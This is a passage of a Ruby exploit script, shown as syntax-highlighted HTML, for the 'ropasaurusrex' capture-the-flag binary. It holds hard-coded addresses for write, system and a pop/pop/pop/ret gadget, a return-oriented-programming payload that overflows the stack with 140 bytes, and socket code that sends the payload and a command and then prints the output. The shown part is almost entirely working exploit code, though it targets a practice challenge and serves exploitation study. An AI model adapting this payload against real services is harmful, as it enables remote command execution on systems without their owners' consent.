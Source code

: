 <span class="lnr">13 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">14 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">15 </span><span class="Comment"># From gdb, &quot;x/x system&quot;</span>
<span class="lnr">16 </span>system_addr = <span class="Constant">0xb7ec2450</span>
<span class="lnr">17 </span><span class="Comment"># From objdump, &quot;pop/pop/pop/ret&quot;</span>
<span class="lnr">18 </span>pppr_addr = <span class="Constant">0x080484b6</span>
<span class="lnr">19 </span>
<span class="lnr">20 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">21 </span>payload = <span class="Special">&quot;</span><span class="Constant">A</span><span class="Special">&quot;</span>*<span class="Constant">140</span> +
<span class="lnr">22 </span>  [
<span class="lnr">23 </span>    <span class="Comment"># system()'s stack frame</span>
<span class="lnr">24 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">25 </span>    <span class="Constant">0x44444444</span>,  <span class="Comment"># system()'s return address</span>
<span class="lnr">26 </span>
<span class="lnr">27 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">28 </span>    system_addr, <span class="Comment"># pop/pop/pop/ret's return address</span>
<span class="lnr">29 </span>
<span class="lnr">30 </span>    <span class="Comment"># read()'s stack frame</span>
<span class="lnr">31 </span>    cmd.length,  <span class="Comment"># number of bytes</span>
<span class="lnr">32 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">33 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">34 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">35 </span>
<span class="lnr">36 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">37 </span>  ].reverse.pack(<span class="Special">&quot;</span><span class="Constant">I*</span><span class="Special">&quot;</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">38 </span>
<span class="lnr">39 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">40 </span>s.write(payload)
<span class="lnr">41 </span>
<span class="lnr">42 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">43 </span>s.write(cmd)
<span class="lnr">44 </span>
<span class="lnr">45 </span><span class="Comment"># Read the response from the command and print it to the screen</span>
<span class="lnr">46 </span>puts(s.read)
<span class="lnr">47 </span>
<span class="lnr">48 </span><span class="Comment"># Clean up</span>
<span class="lnr">49 </span>s.close()
</pre>
